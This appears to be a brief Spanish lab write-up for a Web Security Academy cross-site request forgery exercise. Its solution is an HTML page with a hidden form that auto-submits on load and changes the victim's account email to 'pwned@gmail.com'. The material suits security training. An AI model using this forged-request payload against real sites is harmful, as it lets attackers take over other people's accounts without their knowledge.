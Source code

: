
## Objetivo:

![[Pasted image 20240515230656.png]]

## Solucion:

![[Pasted image 20240515231526.png]]


```
<body>

<form action="https://0a1e00a8031a8cad802785a900c50061.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com" />

</form>

<script>

document.forms[0].submit()

</script>

</body>
```
